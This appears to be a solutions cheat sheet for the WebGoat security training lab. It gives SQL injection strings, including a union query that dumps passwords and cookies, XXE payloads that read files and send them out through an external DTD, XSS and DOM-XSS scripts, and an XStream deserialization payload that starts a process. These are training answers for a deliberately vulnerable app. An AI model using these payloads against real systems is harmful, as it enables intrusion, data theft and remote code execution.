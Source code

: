 https://github.com/WebGoat/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)


### SQLi ###

Basic
Smith - to show it returns smith's records.
To show exploit; `1=1` can be any true clause:

```sql
Smith' or '1'='1
```

**Bender Login**
```sql
bender@juice-sh.op' --
```
```sql
[2:19 PM]
101
101 or 1=1
```
```sql
Smith' union select userid,user_name, password,cookie,cookie, cookie,userid from user_system_data --
```

## XXE ##

Simple:
```xml
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>
```

Modern Rest Framework:
Change content type to: `Content-Type: application/xml` and
```xml
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><user>  <username>&root;</username><password>test</password></user>
```

Blind SendFile
```xml

      Solution:

      Create DTD:

      <pre>
          <?xml version="1.0" encoding="UTF-8"?>
          <!ENTITY % file SYSTEM "file:///c:/windows-version.txt">
          <!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=%file;'>">
           %all;
      </pre>

      This will be reduced to:

      <pre>
          <!ENTITY send SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=[contents_file]'>
      </pre>

      Wire it all up in the xml send to the server:

      <pre>
       <?xml version="1.0"?>
       <!DOCTYPE root [
       <!ENTITY % remote SYSTEM "http://localhost:8080/WebGoat/plugin_lessons/XXE/test.dtd">
       %remote;
        ]>
       <user>
         <username>test&send;</username>
       </user>

      </pre>


```

### XSS ###
```javascript
<script>alert('my javascript here')</script>4128 3214 0002 1999
```

DOM-XSS:

  Something like
  `http://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere%3Cscript%3Ewebgoat.customjs.phoneHome();%3C%2Fscript%3E
//`
OR
`http://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere<script>webgoat.customjs.phoneHome();<%2Fscript>`

### Vuln - Components ###

Jquery page: - it is contrived; but paste that in each box
```javascript
OK<script>alert("XSS")<\/script>
OK<script>alert("XSS")<\/script>
```
for the deserialization:  got to the link: http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/  to read about why it works so you can talk to it.
```html
<sorted-set>
 <string>foo</string>
 <dynamic-proxy>
   <interface>java.lang.Comparable</interface>
   <handler class="java.beans.EventHandler">
     <target class="java.lang.ProcessBuilder">
       <command>
         <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
       </command>
     </target>
     <action>start</action>
   </handler>
 </dynamic-proxy>
</sorted-set>

```
